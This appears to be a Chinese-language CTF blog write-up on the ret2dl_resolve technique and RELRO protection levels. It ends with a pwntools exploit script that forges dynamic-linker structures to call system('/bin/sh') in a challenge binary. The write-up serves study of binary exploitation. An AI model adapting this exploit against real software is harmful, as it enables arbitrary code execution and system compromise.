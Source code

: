 ```s
1.获得DynStr,DynSym,DynRel地址
2.传入的rel_arg 在Rel 中找到Elf_Rel结构体
3.通过Elf_Rel得到got地址和Elf_Sym的地址
4.通过Elf_Sym获得Str表的offset从而获得String
5.通过_dl_lookup_symbol_x得到真实地址
```


# Relro

relro 是一种用于加强对 binary 数据段的保护的技术。relro 保护分为 partial relro 和 full relro.gcc的默认是开partial.[这篇论文][2]中涉及了对3种程度保护(加上无保护)的理论上的攻击方法.

没有仔细去阅读源码只有经验上的认识
```python
No Relro: DnyStr,DnySym 是可以写的
Partial Reloro: 不可以写上述表但是可以通过伪造Idx攻击
Full Relro: Got不可改写
```

# Partial

[binary][3]

过程比较简单不作说明

感觉平时用的少了导致我一直没想到用这个方法...
往pwnable.tw gets 那题的方法走了...走歪了
DL_resolver 适用于没有泄露时.

# exp
```python
from pwn import *
#context.log_level='debug'
got=0x804a00c
read=0x8048330
rbp=0x0804850b
ppp=0x08048509
ret=0x080482fa
bss=0x0804a800
tmp=0xf75d8000+0x3ac62
plt0=0x8048320
strtab=0x8048240
dynsym=0x80481d0
dynrel=0x80482d8
p2=flat(
[got,0x07+(((bss+0x10-dynsym)/0x10)<<8)],0xdeadbeef,0xdeadbeef,# DYN_REL & ALAIGN
[bss+0x28-strtab,0x12,0,0,0,0],#DYNSYM
)+"system\x00\x00"+"/bin/sh\x00"#DYNSTR
context.arch='i386'
while(1):
	p=process("./baby2")
	#gdb.attach(p,'b *0x80484ae')
	payload=p32(ret)*2+p32(read)+p32(ppp)+p32(0)+p32(bss)+p32(0x123)+p32(plt0)+p32((bss-dynrel))+p32(bss+0x30)*2
	payload=payload.ljust(0x2c,'\x00')
	payload+='\x00'
	p.send(payload)
	sleep(0.3)
	#raw_input()
	try:
		p.send(p2)
		p.interactive()
```

[1]: https://www.youtube.com/watch?v=wsIvqd9YqTI
[2]: https://github.com/n132/banana/blob/master/Pwn/papers/dl_resolver.pdf
[3]: https://github.com/n132/Watermalon/blob/master/2k19/baby2/baby2